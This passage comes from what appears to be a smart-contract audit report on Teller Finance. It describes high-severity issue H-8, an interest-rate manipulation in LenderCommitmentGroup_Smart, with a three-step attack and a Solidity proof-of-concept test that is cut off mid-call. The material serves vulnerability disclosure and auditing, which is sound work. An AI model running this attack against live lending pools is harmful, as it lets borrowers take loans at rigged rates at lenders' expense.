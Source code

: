 

## Discussion

**ethereumdegen**

Thanks this one had been infuriating and that is why there were ? marks  - really need more tests for this 

**sherlock-admin2**

The protocol team fixed this issue in the following PRs/commits:
https://github.com/teller-protocol/teller-protocol-v2-audit-2024/pull/25


# Issue H-8: Interest rate in `LenderCommitmentGroup_Smart` may be easily manipulated by depositing, taking a loan and withdrawing 

Source: https://github.com/sherlock-audit/2024-04-teller-finance-judging/issues/110 

## Found by 
0x3b, 0x73696d616f, 0xAnmol, Bandit, Bauer, BoRonGod, KupiaSec, OMEN, kennedy1030, merlin, no
## Summary

`LenderCommitmentGroup_Smart` gets the interest directly from the utilization ratio, which may be gamed and a loan may be taken with lower interest rate at no risk.

## Vulnerability Detail

The utilization ratio is the ratio between ongoing loans and principal deposited (plus interest and/minus liquidation premiums). As the values used for its calculations are the most recent ones and there is no constraint on depositing, borrowing or withdrawing in different periods, it is easy for borrowers to pick much better interest rates. The attack can be carried out as follows:
1. Deposit principal by calling `LenderCommitmentGroup_Smart::addPrincipalToCommitmentGroup()`.
2. Take the loan out with the reduced interest rate.
3. Withdraw the shares corresponding to the borrowed principal.
This attack was simulated in the following POC, which should be inserted in the test file in issue 'Drained lender due to LenderCommitmentGroup_Smart::acceptFundsForAcceptBid() _collateralAmount by STANDARD_EXPANSION_FACTOR multiplication':
```solidity
function test_POC_bypassInterestRate() public {
    uint256 principalAmount = 1000e18;
    deal(address(DAI), user, principalAmount);
    vm.startPrank(user);

    // add principal to lender to get shares
    DAI.approve(address(lender), principalAmount);
    uint256 shares = lender.addPrincipalToCommitmentGroup(principalAmount, user);

    // approve the forwarder
    tellerV2.approveMarketForwarder(marketId, address(smartCommitmentForwarder));

    // borrow the principal
    uint256 collateralAmount = 1e18;
    uint256 loanAmount = principalAmount / 2;
    deal(address(WETH), user, collateralAmount);
    WETH.approve(address(collateralManager), collateralAmount);
    uint256 bidId = smartCommitmentForwarder.acceptCommitmentWithRecipient(
        address(lender),
        loanAmount,
        collateralAmount,
        0,
        address(WETH),
```